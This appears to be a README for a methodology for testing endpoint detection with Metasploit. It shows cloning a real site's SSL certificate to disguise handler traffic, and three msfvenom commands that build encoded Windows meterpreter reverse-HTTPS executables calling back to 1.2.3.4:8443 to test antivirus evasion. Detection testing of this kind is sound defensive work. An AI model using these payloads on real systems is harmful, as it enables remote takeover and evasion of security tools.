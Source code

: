 # Inital Setup for MSF Testing

Change the default metasploit SSL cert:

```
sudo msfconsole

use auxiliary/gather/impersonate_ssl 
set RHOST example.com

run
```

Example output:
![output](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/edr1.png "Command Output")

Take the .pem file and use for setting the SSL cert in the msf.rc file.

Change:
```
set HANDLERSSLCERT /root/attack.crt
```

To your new cert you collected:
```
set HANDLERSSLCERT /root/.msf4/loot/20210526091350_default_93.184.216.34_93.184.216.34_pe_809138.pem
```

## Payload Generation

Create 3 msfvenom payloads

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 1 lport=8443 lhost=1.2.3.4 -b "\x00" -f exe -o test.exe
```

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 20 lport=8443 lhost=1.2.3.4 -b "\x00" -f exe -o test2.exe
```

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 30 lport=8443 lhost=1.2.3.4 -b "\x00\xff" -f exe -o test3.exe
```

The command shoudl complete and output 3 testing executables. For the high interation payloads you may recieve an error as the paylod errors during the interation process, just rerun the command until you get a successful run.

![output payload 1](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr2.png "Payload 1")

![output payload 3 error](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr3.png "Payload 3 Error")

![output payload 3 success](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr4.png "Payload 3 Success")
